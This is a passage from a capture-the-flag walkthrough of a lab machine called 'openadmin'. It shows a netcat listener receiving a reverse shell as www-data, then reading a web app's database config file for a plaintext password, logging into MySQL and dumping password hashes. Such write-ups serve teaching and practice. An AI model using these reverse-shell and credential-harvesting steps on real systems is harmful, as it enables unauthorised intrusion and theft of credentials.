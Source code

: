 If you had a netcat listening at 4444, you'd get a shell back:
```
kali@kali:~$ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.171] 53584
bash: cannot set terminal process group (1003): Inappropriate ioctl for device                                                                   
bash: no job control in this shell                                                                                                               
www-data@openadmin:/opt/ona/www$   
```

### Priv: www-data -> jimmy
If you'd looked around, or run some enumeration scripts, likely you'd have found that there's not much you can do as `www-data`. So in this case, we can in fact take advantage of the fact that we're `www-data`, and look through the web-app config files for some useful information.

One of the best places to look first is always database configs for some credentials, and by searching around the webroot, you can find one at `/opt/ona/www/local/config/database_settings.inc.php`.
```
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

At this point, I tried logging in to the database locally with `mysql -u ona_sys -p` and password `n1nj4W4rri0R!`. Managed to get in and snoop around, but found nothing useful.
```
mysql> select * from ona_default;
id      username        password        level   ctime   atime
1       guest   098f6bcd4621d373cade4e832627b4f6        0       2020-03-30 10:59:53     2020-03-30 10:59:53
2       admin   21232f297a57a5a743894a0e4a801fc3        0       2007-10-30 03:00:17     2007-12-02 22:10:26
```
If you cracked the `admin` hash, the password is 'admin', which if you try on SSH (with username `admin`), it fails. Also, if our reward for cracking the hash is `admin`, this very likely isn't the way to go. ¯\_(ツ)_/¯

